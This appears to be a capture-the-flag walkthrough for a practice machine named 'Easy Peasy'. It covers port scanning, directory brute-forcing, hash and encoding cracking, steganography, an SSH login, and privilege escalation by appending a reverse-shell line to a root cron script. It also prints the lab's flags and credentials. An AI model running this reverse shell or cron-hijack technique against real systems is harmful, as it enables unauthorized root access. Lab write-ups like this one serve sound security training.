 # Easy Peasy

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.29.170

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
-p-: scan all ports
```
nmap -sV -p- -oN nmap.txt 10.10.29.170
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    80 (http nginx 1.16.1),<br>
    6498 (ssh OpenSSH 7.6p1), <br>
    65524 (http Apache 2.4.43)

Enumerate hidden directories on website on port 80
```
gobuster dir -u 10.10.29.170 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![1.2](./imgs/1.2.png)

Directories of Interest: /hidden

Nothing important found in /hidden

Lets further enumerate this directory

```
gobuster dir -u http://10.10.29.170/hidden -w /usr/share/wordlists/dirb/common.txt
```

![1.4](./imgs/1.4.png)

Directories of Interest: /hidden/whatever

![1.5](./imgs/1.5.png)

Found hash (or encoding): ZmxhZ3tmMXJzN19mbDRnfQ==

Lets further enumerate this directory

```
gobuster dir -u http://10.10.29.170/hidden/whatever -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![1.6](./imgs/1.6.png)

Directories of Interest: None

Enumerate hidden directories on website on port 65524
```
gobuster dir -u http://10.10.29.170:65524 -w /usr/share/wordlists/dirb/common.txt
```

![1.3](./imgs/1.3.png)

Directories of Interest: robots.txt

![1.7](./imgs/1.7.png)

Found hash: a18672860d0510e5ab6699730763b250

### 2. FLAG 1

Use https://gchq.github.io/CyberChef/ to crack encoding we found (ZmxhZ3tmMXJzN19mbDRnfQ==)

![2.1](./imgs/2.1.png)

**FLAG 1**: flag{f1rs7_fl4g}

### 3. FLAG 2

Use hash-identifier on hash we found<br>
-m: show hash cat modes<br>
-j: show john hash formats
```
hashid -m "a18672860d0510e5ab6699730763b250"
```

MD5 hash

-a3: brute force attack
```
hashcat -a3 -m0 hash
```

**FLAG 2**: flag{1m_s3c0nd_fl4g}

### 4. FLAG 3

Found encoded string and flag in http://10.10.29.170:65524 page source

![4.9](./imgs/4.9.png)

**FLAG 3**: flag{9fdafbd64c47471a8f54cd3fc64cd312}

![4.1](./imgs/4.1.png)

String: ObsJmP173N2X6dOrAgEAL0Vu

Used CyberChef to crack it (Base62)

![4.2](./imgs/4.2.png)

Result: /n0th1ng3ls3m4tt3r

Found another hash

![4.3](./imgs/4.3.png)

Hash: 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81

Use john to crack this hash<br>
Hint: use GOST
```
john hash --wordlist=~/Desktop/easypeasy.txt --format=GOST
```

![4.4](./imgs/4.4.png)

Result: mypasswordforthatjob

There was also an image in /n0th1ng3ls3m4tt3r that we can try using steghide on
```
steghide extract -sf img.jpeg
```
 
Use password found previously

![4.5](./imgs/4.5.png)

Username: boring
Password (Binary): 01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001

Use CyberChef to convert this

![4.6](./imgs/4.6.png)

Password: iconvertedmypasswordtobinary

```
ssh -P 6498 boring@10.10.29.170
```

![4.7](./imgs/4.7.png)

User flag cipher: synt{a0jvgf33zfa0ez4y}

Could be ROT13 so use CyberChef to crack this 

![4.8](./imgs/4.8.png)

**USER FLAG**: flag{n0wits33msn0rm4l}

### 5. PRIVILEGE ESCALATION

Check user privileges
```
sudo -l
```

no sudo privileges

Use linpeas
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas
scp -P 6498 linpeas boring@10.10.29.170:~/
```

```
chmod +x linpeas
./linpeas
```

![5.1](./imgs/5.1.png)

Found possible attack vector

```
cd /var/www
ls -l .mysecretcronjob.sh
cat .mysecretcronjob.sh
```

![5.2](./imgs/5.2.png)

It looks like this script is owned by boring and it will run as root

Edit this script to get a root reverse shell
```
chmod 777 .mysecretcronjob.sh
echo "sh -i >& /dev/tcp/10.6.1.136/4444 0>&1" >> .mysecretcronjob.sh
```

![5.3](./imgs/5.3.png)

**ROOT FLAG**: flag{63a9f0ea7bb98050796b649e8548145}
